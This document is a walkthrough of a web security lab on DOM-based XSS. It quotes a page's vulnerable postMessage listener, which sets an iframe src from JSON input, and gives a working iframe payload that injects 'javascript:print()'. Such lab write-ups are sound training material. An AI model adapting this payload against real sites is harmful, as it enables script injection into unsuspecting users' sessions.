 Title: DOM XSS using web messages and JSON.parse
Level: Practitioner
Desc: This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

# Walkthrough:

```
 <script>
                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
                    </script>
```


```
window.postMessage(JSON.stringify({
  type: "load-channel",
  url: "https://example.com/player"
}), "*");

```

```
<iframe src=https://0aab005403f0814e809612b000810072.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```
